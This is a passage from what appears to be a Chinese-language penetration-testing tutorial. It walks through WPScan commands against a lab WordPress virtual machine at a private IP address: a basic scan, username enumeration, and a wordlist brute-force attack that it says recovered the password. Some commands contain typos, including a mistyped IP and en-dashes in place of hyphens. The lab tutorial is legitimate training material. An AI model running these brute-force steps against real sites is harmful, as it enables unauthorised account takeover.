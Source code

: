 2. 让我们对WordPress虚拟机执行基本的 WPScan测试。这里，我们靶机的IP地址是`192.168.56.102`。

   `wpscan –u 192.168.56.102`

3. 现在，让我们通过执行下列命令枚举用户名列表：

   `wpscan –u 192.186.56.102 –e u vp`

   页面会像下面这样：

   ![img](/blog/img/img/3-4-5.jpg)

4. 最后，我们通过使用`–wordlist <文件路径>`选项来提供单词列表：

   `wpscan –u 192.168.56.102 -e u --wordlist /root/wordlist.txt`

   页面会像下面这样：

   ![img](/blog/img/img/3-4-6.jpg)

5. 这就结束了。我们已经成功获取了 WordPress 的密码。